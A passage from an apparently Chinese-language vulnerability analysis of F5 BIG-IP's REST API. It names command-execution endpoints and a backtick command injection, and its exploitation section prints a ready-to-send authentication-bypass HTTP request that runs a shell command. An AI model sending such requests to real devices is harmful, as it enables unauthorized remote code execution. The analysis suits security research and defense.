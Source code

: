 ### 4.3 命令执行端点

命令执行端点主要是配合认证绕过最终达成远程pre auth rce的效果。

#### 4.3.1 /mgmt/tm/util/bash

从[F5 BIG IP官方sdk][7]中找到 `/mgmt/tm/util/bash` 可以直接执行命令：

[![](https://p403.ssl.qhimgs4.com/t0126e9973635a6d611.jpeg)](https://p403.ssl.qhimgs4.com/t0126e9973635a6d611.jpeg)

#### 4.3.2 /mgmt/tm/access/bundle-install-tasks

从diff中可以看到 `/mgmt/tm/access/bundle-install-tasks` 直接将可控参数与 `tar -xf` 拼接，直接执行命令。可以通过反引号直接执行命令。

[![](https://p403.ssl.qhimgs4.com/t0183452ff50435aaef.jpeg)](https://p403.ssl.qhimgs4.com/t0183452ff50435aaef.jpeg)



## 0x05 漏洞利用

### 5.1 认证不完全导致绕过

第一种方法，可以直接构造如下的包，便可以直接执行命令：

```
POST /mgmt/tm/util/bash HTTP/1.1
Host: 192.168.59.7
Content-Type: application/json
X-F5-Auth-Token: 
Authorization: Basic YWRtaW46
Content-Length: 52

`{`
    "command": "run",
    "utilCmdArgs": "-c id"
`}`

```

### 5.2 ssrf获取token

参考4.2.3的总结，寻找相应获取token的端点，然后配合 `X-F5-Auth-Token` 头向命令执行端点发送请求即可。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p403.ssl.qhimgs4.com/t016e80483dd521a7de.jpeg)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p403.ssl.qhimgs4.com/t01e3b7313c8f961289.jpeg)



## 0x06 Reference
